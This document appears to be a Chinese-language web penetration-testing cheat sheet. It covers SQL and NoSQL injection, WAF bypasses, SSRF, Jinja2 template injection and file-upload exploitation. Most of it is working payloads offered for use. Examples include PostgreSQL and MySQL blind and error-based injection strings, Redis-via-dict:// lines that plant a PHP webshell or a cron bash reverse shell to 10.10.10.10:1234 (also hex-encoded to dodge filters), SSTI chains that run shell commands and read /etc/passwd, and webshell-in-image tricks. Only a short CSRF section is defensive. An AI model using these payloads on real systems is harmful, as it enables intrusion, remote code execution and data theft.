UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,(CHR(113)||CHR(118)||CHR(98)||CHR(120)||CHR(113))||COALESCE(CAST(CURRENT_SCHEMA() AS VARCHAR(10000))::text,(CHR(32)))||(CHR(113)||CHR(118)||CHR(107)||CHR(107)||CHR(113)),NULL-- onWD

~~~











~~~postgresql
查看版本：
1 AND 2=CAST((SELECT version())::text AS NUMERIC)
 
查库：
1 AND 2=CAST((SELECT current_database())::text AS NUMERIC)
1 AND 2=CAST((SELECT datname from pg_database limit 1 offset 0)::text AS NUMERIC)
………………
 
查表：
1 AND 2=CAST((SELECT relname from pg_stat_user_tables limit 1 offset 0)::text AS NUMERIC)
………………
 
查列：
1 AND 2=CAST((select column_name from information_schema.columns where table_name='test' limit 1 offset 0)::text AS NUMERIC)
 
 
还有一个sqlmap跑出来的payload（仅供参考）：
1 AND 7778=CAST((CHR(113)||CHR(98)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (7778=7778) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(118)||CHR(112)||CHR(106)||CHR(113)) AS NUMERIC)
~~~

current_catalog / current_database() 与MySQL中的database()作用相同，为当前数据库名

pg_database可查询所有的数据库（列名关键字为datname）

MySQL中的limit 0,1在postgresql只能以limit 1 offset 0格式存在

user / current_user / getpgusername()都可用于查询当前用户名

pg_stat_user_tables为当用户的表单所有信息，可用于查表名（列关键字为relname）

current_schema[()]表示当前模式名

pg_tables 是一个系统表，提供对数据库中每个表的信息的访问，通过对schemaname模式的限制得到表名

MongoDB注入

基本操作

~~~MongoDB
show db
 
show dbs
 
show tables
 
use  数据库名
 
插入数据
 
db.admin.insert({json格式的数据})
 
例如 
 
db.admin.insert({'id':1,'name':admin,'passwd':admin123})
 
或者通过定义的方法
 
canshu={'id':1,'name':admin,'passwd':admin123}
 
db.admin.insert(canshu)
 
删除
 
db.admin.remove()
 
更新
 
db.admin.update({'name':'admin'},{$set{'id':1}})
 
前面是条件 后面是更新的内容
~~~

条件操作符

~~~MongoDB
$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all 
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/
 
解释
 
$gt	大于
$lte	小于等于
$in	包含
$nin	不包含
$lt	小于
$gte	大于等于
$ne	不等于
$eq	等于
$and	与
$nor	$nor在NOR一个或多个查询表达式的数组上执行逻辑运算，并选择 对该数组中所有查询表达式都失败的文档
$not	反匹配(1.3.3及以上版本),字段值不匹配表达式或者字段值不存在
$or
~~~



墨者学院中的MongoDB注入

想办法闭合语句，查看所有集合

 db.getCollectionNames()返回的是数组，需要用tojson转换为字符串。并且mongodb函数区分大小写

?id=1'}); return ({title:tojson(db.getCollectionNames()),2:'1

类似语句： select SCHEMA_NAME from information_schema.SCHEMATA


 查看Authority_confidential集合的第一条数据
?id=1'}); return ({title:tojson(db.Authority_confidential.find()[0]),2:'1

select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='Authority_confidential' 

查看Authority_confidential集合的第二条数据

?id=1'}); return ({title:tojson(db.Authority_confidential.find()[1]),2:'1

**查询方式及报错盲注**：




0x7e是波浪线的编码~  常用于报错注入

**insert报错注入**

UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。

第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点的值

改变XML_document中符合XPATH_string的值

x' or(select 1 from(select count(*),concat((select (select (select concat(0x7e,databse(),0x7e))) from

information_schema.tables limit 0,1) floor(rand(0)*2))x from information_schema.tables group by x)a)

or '

x' or updatexml(1,concat(0x7e,(version())),0) or '

x' or extractvalue(1,concat(0x7e,database())) or '

**update报错注入**


**delete报错注入**


延时注入其他

判断注入点

?id=1' and sleep(5)-- - // 正常休眠
?id=1" and sleep(5)-- - // 无休眠

判断数据库名长度

?id=1' and if(length(database())=8, sleep(10), 1)-- -

猜测数据库名

?id=1' and if(ascii(substr(database(),1,1))=115, 1, sleep(10))-- -

猜测表名

?id=1' and if((select ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1)))=101, sleep(5), 1)-- -

猜字段和数据

?id=1' and if((select ascii(substr((select column_name from information_schema.columns where table_name="表名" limit 0,1),N,1)))=101, 0, sleep(5))-- -

场景

延时注入适用于在输入 *and 1* 或 *and 0* 时页面返回无变化的情况。此时可以通过 *and sleep(5)* 来判断页面的响应时间，如果响应时间在五秒多一点，说明此处可以使用延时注入

**access偏移注入**

列名无法拆解


```
偏移注入是一种注入姿势，可以根据一个较多字段的表对一个少字段的表进行偏移注入，一般是联合查询，在页面有回显点的情况下；
当你猜到表名无法猜到字段名的情况下，我们可以使用偏移注入来查询那张表里面的数据。
假设一个表有8个字段，admin表有3个字段。

联合查询payload：union select 1,2,3,4,5,6,7,8 from admin 

在我们不知道admin有多少字段的情况下可以尝试payload：union select 1,2,3,4,5,6,7,admin.* from admin，此时页面出错

直到payload：union select 1,2,3,4,5,admin.* from admin时页面返回正常，说明admin表有三个字段

然后通过移动admin.*的位置，就可以回显不同的数据
```

加解密：

%3D是等号

如果存在加密 先把注入语句加密后再去注入发送

二次注入：一般接近白盒测试  出现在登录框 注册框这种


dnslog注入：解决盲注没有回显数据

https://github.com/ADOOO/DnslogSqlinj

https://ceye.io

中转注入：

通过中间件 自己写poc来验证是否存在注入点


堆叠注入：注入里面加多一条语句进行执行 就是多条语句同时执行即可


堆叠注入只会产生在部分数据库 不会在每个数据库都产生 因为他们的api不一样

mysql是比较支持的 SQLserver oracle不支持

waf绕过：

安全狗绕过

可以更改数据的提交方式 	前提是数据支持其他的提交方式才可以

对数据具有拦截 可以通过大小写、加密解密、编码解码、等价函数、特殊符号

反序列化、注释符混用

select database/**/()   

/%0A/代表换行符

/**/代表空格

%23 代表#

http参数污染：一个参数赋上两个或两个以上的值，由于现行的HTTP标准没有提及在遇到多个输入值给相同的参数赋值时应该怎样处理，而且不同的网站后端做出的处理方式是不同的，从而造成解析错误


fuzz测试：模糊测试 暴力测

知道白名单的ip地址 然后通过下面的数据条件进行伪造


静态资源


看一下常用的几个符号的一些Unicode编码：

单引号:  %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

看一下常见的用于注释的符号有哪些：*//, -- , /**/, #, --+,--  -, ;，--a**

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@[@user ]() ==> user() 

@[@datadir ]() ==> datadir() 

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74

或者：substr((select 'password'),1,1) = 0x70

strcmp(left('password',1), 0x69) = 1

strcmp(left('password',1), 0x70) = 0

strcmp(left('password',1), 0x71) = -1

SQL Injection时用得最多的一些关键字如下：and, or, union, where, limit, group by, select, ', hex, substr, white space

对它们的检测，完整正则表达式为：preg_match('/(and|or|union|where|limit|group by|select|'|hex|substr|\s)/i', $id)

应对方式如下

~~~text
***note***:"=>"左边表示会被Filtered的语句，"=>"右边表示成功Bypass的语句，左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字

and => && 　　or => ||

union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin

1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin

1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 1) = 'admin'
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat(user_id),1,1) user from users )=1
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>	1 || 1 = 1 into outfile 'result.txt'　或者  1 || substr(user,1,1) = 'a'　
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || substr(user,1,1) = 0x61
　　　或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
1 || substr(user,1,1) = unhex(61)　　=>	1 || substr(user,1,1) = lower(conv(11,10,36))
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered
~~~

## CSRF及SSRF

CSRF介绍


跨站盗取，钓鱼网站

对其进行防御：

1.当用户发送重要的请求时需要输入原始密码

2.设置随机Token

3.检验referer来源，请求时判断请求链接是否为当前管理员正在使用的页面(管理员在编辑文章，黑客发来恶意的修改密码链接，因为修改密码页面管理员并没有在操作，所以攻击失败)

4.设置验证码

5.限制请求方式只能为POST

SSRF介绍


http://ip/phpmyadmin

file://D:/www.txt

file:///etc/passwd
file:///var/www/html/index.php
file:///usr/local/apache-tomcat/conf/server.xml

ftp://ip:21

常见dict探测端口和服务指纹

dict://127.0.0.1:22

dict://172.22.10.10:3306

dict://127.0.0.1:6379/info

写入webshell

dict://127.0.0.1:6379/config:set:dbfilename:test.php

dict://127.0.0.1:6379/config:set:dir:/var/www/html

dict://127.0.0.1:6379/set:test:"\n\n<?php @eval($_POST[x]);?>\n\n"

dict://127.0.0.1:6379/save

一、dict协议探测端口和服务指纹
dict://127.0.0.1:22
dict://172.22.10.10:3306
dict://127.0.0.1:6379/info


二、dict协议攻击redis，写入定时任务，进行反弹shell
centos系统定时任务的路径为：/var/spool/cron
debian系统定时任务的路径为：/var/spool/cron/crontabs

dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron
dict://127.0.0.1:6379/set:test:"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.10.10.10/1234 0>&1\n\n"
dict://127.0.0.1:6379/save

注意：若payload存在被转义或过滤的情况，可利用16进制写入内容
dict://127.0.0.1:6379/set:test:"\n\n\x2a/1\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/10.10.10.10/1234\x200\x3e\x261\n\n"


三、dict协议攻击redis，写入webshell
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/config:set:dir:/var/www/html
dict://127.0.0.1:6379/set:test:"\n\n<?php @eval($_POST[x]);?>\n\n"
dict://127.0.0.1:6379/save

若存在过滤， 则利用16进制内容写入：
dict://127.0.0.1:6379/set:test:"\n\n\x3c\x3f\x70\x68\x70\x20\x40\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e\n\n"

四、dict协议攻击redis，写入ssh公钥
操作和写入定时任务相似

工具可以用来构造gopher协议数据流

https://github.com/tarunkant/Gopherus

## SSTI模版详解

SSTI可以简单说为服务器模版注入。

常见的就是python的flask、php的thinkphp、java的spring等一般采用MVC模式的框架

用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户

**漏洞原理：**

服务端接收攻击者的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了攻击者插入的可以破坏模板的语句，从而达到攻击者的目的

python中的基于jinja2的模板渲染

~~~python
from flask import *
from jinja2 import *
 
app = Flask(__name__)
 
@app.route("/myan")
 
def index():
    name = request.args.get('name','guest')
    html = '''<h3> Hello %s'''%name
    return render_template_string(html)
 
if __name__ == "__main__":
        app.run(debug=True)
~~~

运行后访问http://127.0.0.1:5000/myan可以发现默认的模板解析参数为guest


然后当我们进行/myan?name=suke时，它返回的就是hello suke


所以可以知道主要通过name = request.args.get('name','guest')进行渲染

如果没有传入则是默认的guest

传入的话则渲染传入的值

**模版渲染函数：**

这里主要有两种模板渲染函数，**render_template_string()与render_template()**，其中render_template是用来渲染一个指定文件的。render_template_string()则是用来渲染字符串的。而渲染函数在渲染的时候，往往对用户输入的变量不做渲染，即：{{}}在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把{{}}包裹的内容当做变量解析替换。比如{{2*2}}会被解析成4。因此才有了现在的模板注入漏洞。往往变量我们使用{{恶意代码}}。正因为{{}}包裹的东西会被解析，因此我们就可以实现类似于SQL注入的漏洞

**漏洞攻击方式：**

1.继承关系

~~~python
class A:
    pass;
class B(A):
    pass;
class C(B):
    pass;
class D(C):
    pass;

s = D()
print(s.__class__)
~~~

此时的输出是D的类


~~~text
.__class__
~~~


所以我们可以知道通过这种方式进行获取到当前的类，有点像java中的getClass()

随后要获取它的父类则

~~~text
.__class__.__base__
~~~


因此我们可以以此往上推至A类

但是当我们拿到A类之后，按照我们的编程常识，可以清楚所有类的父类都应该为超类 Object，所以可以再添加一层拿到Object类

除了这种方式，还有另外一种方式

~~~text
魔术方法 .__mro__
~~~


可以看到这种方式应该是以一种数组形式输出的

所以想拿相对应的类可以通过下标即可

拿到object类后就可以通过object类来查找python中的所有object类的子类，当然这其中会有我们能通过该类rce的子类。我们通过__subclasses__来获取当前类的所有子类

~~~text
.__subclasses__
~~~

因此ssti注入便可以用这种方式进行，拿到相对应的子类，通过rce远程执行恶意代码即可

所以可以去寻找os._wrap_close类

直接遍历查找即可 我个人环境是156，注意每个人的环境都不一样，索引也不一样

拿到之后，需要进行初始化

~~~text
.__init__
~~~

初始化方法后可以通过__globals__魔术方法来返回当前类方法中的全局变量字典

返回当前类的全局变量

然后可以通过变量进行访问读取，操作即可

因此应该找到能执行系统命令的方法，这里用popen函数来执行系统命令，在后面加上具体的函数名即可找到对应的函数


执行一下shell命令，这里执行一下whoami，这里一定要记得用.read()来读取一下，因为popen方法返回的是一个与子进程通信的对象，为了从该对象中获取子进程的输出，因此需要使用read()方法来读取子进程的输出】。

**魔术方法：**

~~~text
__class__   ：返回类型所属的对象
__mro__     ：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   ：返回该对象所继承的父类
__mro__     ：返回该对象的所有父类

__subclasses__()  获取当前类的所有子类
__init__  类的初始化方法
__globals__  对包含(保存)函数全局变量的字典的引用
~~~

**注入：**

根据上方的知识可以知道，使用{{}}会包裹恶意代码，直接进行渲染


发现进行了解析，所以可以通过继承的关系方式来拿取内置类，然后进行rce

不知道有什么类，可以使用以下的类型

~~~text
''.__class__

().__class__

[].__class__

"".__class__

{}.__class__
~~~


注意payload不能一次到位，需要通过慢慢测试才可以，因为你不知道它有多少个类

其他payload：

~~~text
{{lipsum.__globals__.__builtins__.__import__('os').popen('ls').read()}}
~~~


常用的payload：

~~~text
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
#文件操作
{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

~~~

~~~text
dir()与__dic__
dir()是一个函数，返回的是list
__dict__是一个字典，键为属性名，值为属性值
dir()返回所有的属性，而__dic__返回的是非父类的键与对应的值

~~~


~~~python
dict.values()可以返回字典中的所有值
~~~

以下是示例payload 但是还是需要根据自身的环境进行查找索引

~~~text
'.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").popen("ls").read()')

这两个payload用的是同一个模块,__builtins__模块,eval方法.

[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].popen('ls').read()

~~~

上述均经常被ban 所以可以通过绕过

**拼接：**

~~~text
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()

~~~

**编码：**

~~~text

().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")

等价于

().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))(可以看出单双引号内的都可以编码)

同理还可以进行rot13、16进制编码等

~~~

**过滤中括号：**

~~~text
先获取chr函数，赋值给chr，后面拼接字符串

{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()
}}

或者借助request对象：（这种方法在沙盒种不行，在web下才行，因为需要传参）

{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd

PS：将其中的request.args改为request.values则利用post的方式进行传参

执行命令：

{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read()
}}

{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read()
}}&cmd=id

~~~

**过滤双下划线：**

~~~text

{{
''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__

~~~

**过滤{{：**

~~~text
1

~~~
## 文件上传


**文件上传漏洞：**

有能够传输的地方可以进行文件上传，然后拿到shell，提高权限

并不是有文件上传就存在漏洞

**查找及判断：**

可以根据扫描或者会员中心等，上面思维导图操作

判断如果是php可以使用phpinfo最好判断

**黑白名单绕过：**

文件上传常见验证：

1.后缀名： 类型、文件头、黑名单、白名单

2.文件类型：MIME信息

3.文件头：内容头信息

黑名单：不让上传的脚本后缀

缺陷：定义后缀名不完整

asp、php、jsp、aspx、cgi、war

白名单：

jpg、png、zip、rar、gif等

php5、phtml这两个有机会绕过黑名单

MIME信息：抓完数据包后出现的Content-Type里面包含的信息就是MIME信息

可以通过MIME信息判断是什么文件类型 对其进行阻拦

所以进行绕过的时候 可以对其进行修改

文件头信息就是常见的GIF89a


**.htaccess解析：**

只有apache服务器能够解析


~~~text
<FilesMatch "file_name">
SetHandler application/x-httpd-php
</FilesMatch>
~~~

上传该文件后 所有页面都会以一个伪静态的页面进行展示

这时候就可以上传一个后门 后门名称包含有file_name属性即可

上传该文件可以让服务器按照自己所定义的文件格式对其进行php解析 达到后门作用


大小写绕过

空格绕过：系统会强制给你空格过滤掉 即你写空格 它的文件名还是会恢复到原来的名字 只能在数据包中改 而且上传一般在服务器

.绕过跟空格绕过一致


::$DATA

双写绕过

代码将字符串里的后缀名替换为空

一次过滤

a.pphphp 过滤之后还是a.php

循环过滤 递归过滤

a.pphphp 最后会变为a.

%00截断：将后续地址进行截断 %00dakjdlkajclkajsdk 后面的字符全会截断

0x00截断：不是在地址上像下面一样的 可以在hex里面改


不管什么时候都需要多关注数据包里面的路径 可以尝试进行修改

php版本过高会报错的

图片马：

~~~text
copy 1.png /b + shell.php /a webshell.jpg
~~~

也可以直接在图片后面添加‘

抓数据包中进行添加一样的道理

php中的getimagesize()、exif_imagetype()都是用于读取图片信息的函数

exif_imagetype()需要开启php_exif模块

二次渲染：

就是上传之后存在保存或者提交删除这种按钮

这样需要判断对于图片的解析是在第一步还是第二步

条件竞争：

就是当我们正在使用时 缺又要删除的时候

便为条件竞争

我们可以上传后门的时候 同时对其进行访问 以防它一上传就出现被重命名的可能 这样就可以拿到权限

文件夹命名突破黑名单

upload/upload.php/.

数组接受和目录命名：

upload/upload.php/.jpg这样可以绕过

也可以在数据包中这样改


cve-2017-12615 上传Tomcat漏洞

解析漏洞：


nginx解析漏洞

上传之后 可以看到其上传成功 可以在后面再添加shell木马

/upload.jpg/1.php

这样前面的图片会被解析为php执行代码

Apache解析漏洞-低版本：

apache2.x

x.php.xxx.yyy

识别最后的yyy 如果不识别 向前解析

利用场景

如果中间件是低版本 可以利用文件上传 上传一个不识别的文件后缀

利用解析漏洞规则成功解析文件 触发后门代码

apache配置安全：

类似.htaccess

apache换行解析漏洞 httpd 2.4.0~2.4.29

1.php\x0A这样就可以绕过了

nginx文件名逻辑漏洞

cve-2013-4547

0.8.41~1.4.3/1.5.0~1.5.7

上传的时候 抓包然后图片后方添加一个空格


打开新tab 访问http://ip:8080/uploadfiles/1.gif.php

再次抓包


然后修改hex值

再进行发包即可


fckeditor编辑器文件上传

waf绕过：


数据溢出：就是一直发数据 像ddos 脏数据即可


符号变异：

可以把双引号改单引号

尝试将后缀名绕过即可

重复数据：


## dirsearch


## sqlmap


如果已经通过手动sql测试确认存在sql注入，但是使用sqlmap却没有扫描出payload的情况下，可以尝试使用 -technique、-level和-v 命令

~~~text
sqlmap -u "http://127.0.0.1/?id=1&name=1" -p "id" --random-agent -technique=T -level 2 -v 3
~~~

